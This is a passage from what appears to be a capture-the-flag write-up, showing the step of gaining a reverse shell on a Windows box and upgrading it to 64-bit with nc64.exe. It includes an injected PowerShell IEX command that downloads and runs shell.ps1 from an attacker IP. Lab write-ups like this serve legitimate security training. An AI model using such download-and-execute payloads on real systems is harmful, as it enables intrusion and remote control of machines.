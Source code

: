 ![](./images/19.png)

- Let's get reverse shell
  - `...&cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5/shell.ps1')`

![](./images/20.png)

## Root
- So before starting enumeration, we have upgrade our shell to `64`-bit one
  - Apparently there are some registries that specific for `32` and `64` bit versions
  - We can download `nc64.exe` and run it to get `64`-bit version shell

![](./images/21.png)

![](./images/22.png)

